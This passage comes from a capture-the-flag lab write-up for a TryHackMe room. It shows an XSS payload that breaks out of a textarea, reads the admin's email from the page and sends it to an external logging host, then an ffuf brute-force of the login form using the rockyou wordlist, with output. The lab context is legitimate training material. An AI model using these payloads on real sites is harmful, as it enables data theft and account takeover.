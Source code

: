 
## Extracting email address
Let us try and extract the email of the admin from the backend.
### Payload
```js
</textarea> <script>
var email_first = document.getElementById("email").innerHTML.split("@")[0];
var email_second = document.getElementById("email").innerHTML.split("@")[1];
var href = "http://localhost." + email_first + "." + email_second + ".88c61070dfc89262eeb2e6a098a6a136.log.tryhackme.tech/test";
new Image().src=href;
</script>
```

### Sending Request
![image20](/assets/images/thm/thatstheticket/Pasted image 20210611173310.png)

## Checking the response
![image21](/assets/images/thm/thatstheticket/Pasted image 20210611173335.png)
We get a response and with the response we get the email of the admin.

## Bruteforcing password using ffuf
```console
reddevil@ubuntu:~/Documents/tryhackme/misguided_ghosts/http$ ffuf -w /usr/share/wordlists/rockyou.txt  -d "email=adminaccount@itsupport.thm&password=FUZZ" -u http://10.10.133.75/login -fw 475 -H "Content-Type: application/x-www-form-urlencoded"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.0-git
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.133.75/login
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=adminaccount@itsupport.thm&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 475
________________________________________________

******                [Status: 302, Size: 0, Words: 1, Lines: 1]
```
The password for the admin user is instantly found from rockyou.txt.
